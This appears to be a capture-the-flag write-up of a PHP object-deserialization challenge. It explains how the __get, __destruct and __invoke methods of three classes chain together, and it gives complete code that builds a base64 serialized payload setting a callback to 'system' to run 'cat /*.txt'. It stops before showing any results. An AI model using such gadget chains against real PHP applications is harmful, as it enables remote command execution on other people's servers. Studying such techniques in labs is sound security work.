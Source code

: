 - First class is Spaghetti use method `__get($tomato)` is a method get called when we get access into a undefined attribute of that class. And it will run the function at `sauce`
- Second class is Pizza use method `__destruct` is a method get called when this class is destructed. Then it will call to the `$size->what`.
- Final class IceCream use method `__invoke` is a method get called when get called like `$ice();`. It will loops and print the flavors array.
## What we can chain here ? 
- Look at the Pizza, it will access to an undefined variables `what` right? So if we set our `$size` is a object of `Spaghetti` which has `__get($tomato)` get called when access to undefined attribute ? We can chain these together then we can run the `$sauce` of Spaghetti.
- What the `$sauce` should be ? It is clear is the `IceCream` !!! And it will run the `__invoke` and print its flavors !!!
## What flavors we want  ? 
- So now we can make some chain, to finally run the  `__invoke` to print out all flavors.
- Well a `$flavors` in IceCream is just an  array and in the source code we have something interesting : 
```php
<?php

namespace Helpers{
    use \ArrayIterator;
	class ArrayHelpers extends ArrayIterator
	{
		public $callback;

		public function current()
		{
			$value = parent::current();
			echo $value;
			$debug = call_user_func($this->callback, $value);
			return $value;
		}
	}
}

```
This creates a Helpers Array which add a function when get looped with forEach. It will loop through the `values` in array and call a callback with argument is that value !!!! Which is so suitable to create our `$flavours` right ? Because  the `$flavours` get looped too !!.
```php
	foreach ($this->flavors as $flavor) {
	    echo $flavor;
        }
```
# Full steps : 
```php
	$pizza = new Pizza();
	$spa = new Spaghetti();
	$ice  = new IceCream();
    //Set the values is a malicous code
	$arrayHel = new ArrayHelpers(["cat /*.txt"]);  
    // Set callback to system function to exec code
	$arrayHel->callback="system";
    // Chain methods
	$ice->flavors = $arrayHel;
	$spa->sauce  = $ice;
	$pizza->size = $spa;
	echo serialize($pizza);
	echo base64_encode(serialize($pizza));
```
Test it on burp suite we get : 
